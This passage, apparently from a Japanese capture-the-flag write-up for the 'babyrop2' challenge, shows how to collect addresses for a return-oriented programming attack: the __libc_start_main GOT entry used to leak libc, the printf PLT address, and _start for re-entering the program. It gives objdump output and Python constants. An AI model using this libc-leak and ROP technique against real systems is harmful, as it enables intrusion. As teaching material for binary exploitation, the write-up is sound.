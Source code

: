 ```python
addr_welcome = 0x400770
```

### addr_start_main_got

libcのロードアドレスリーク用のGOTアドレス。
GOTアドレスは実行時に動的に値が設定される。
GOTアドレス自体はobjdump -dのコメントで見つけることができる。
この0x601028のアドレスにlibc_start_mainがロードされているアドレスが実行時に書き込まれる。


```bash-statement
$ objdump -d ./babyrop2
0000000000400510 <__libc_start_main@plt>:
  400510:       ff 25 12 0b 20 00       jmpq   *0x200b12(%rip)        # 601028 <__libc_start_main@GLIBC_2.2.5>
  400516:       68 02 00 00 00          pushq  $0x2
  40051b:       e9 c0 ff ff ff          jmpq   4004e0 <.plt>
$
```

```python
addr_start_main_got = 0x601028
```

### addr_printf_plt

アドレスをリークさせるときに呼ぶprintfのアドレス。
引数にaddr_welcomeとaddr_start_main_gotを渡して%sからstart_mainのロードアドレスを吐かせる。
objdump -dで調べることができる。

```bash-statement
$ objdump -d ./babyrop2
00000000004004f0 <printf@plt>:
  4004f0:       ff 25 22 0b 20 00       jmpq   *0x200b22(%rip)        # 601018 <printf@GLIBC_2.2.5>
  4004f6:       68 00 00 00 00          pushq  $0x0
  4004fb:       e9 e0 ff ff ff          jmpq   4004e0 <.plt>
$
```

```python
addr_printf_plt = 0x00000000004004f0
```

### addr_start

1回目のオーバーフローで実行したROPが終わったらもう一度プログラムの最初に戻すために使う。
これもobjdump -dで調べることができる。
gdbで起動して`print _start`でも見つかる。

```bash-statement
$ objdump -d ./babyrop2
Disassembly of section .text:

0000000000400540 <_start>:
  400540:       31 ed                   xor    %ebp,%ebp
  400542:       49 89 d1                mov    %rdx,%r9
  400545:       5e                      pop    %rsi
  400546:       48 89 e2                mov    %rsp,%rdx
  400549:       48 83 e4 f0             and    $0xfffffffffffffff0,%rsp
  40054d:       50                      push   %rax
  40054e:       54                      push   %rsp
  40054f:       49 c7 c0 40 07 40 00    mov    $0x400740,%r8
  400556:       48 c7 c1 d0 06 40 00    mov    $0x4006d0,%rcx
  40055d:       48 c7 c7 36 06 40 00    mov    $0x400636,%rdi
  400564:       e8 a7 ff ff ff          callq  400510 <__libc_start_main@plt>
  400569:       f4                      hlt
  40056a:       66 0f 1f 44 00 00       nopw   0x0(%rax,%rax,1)
```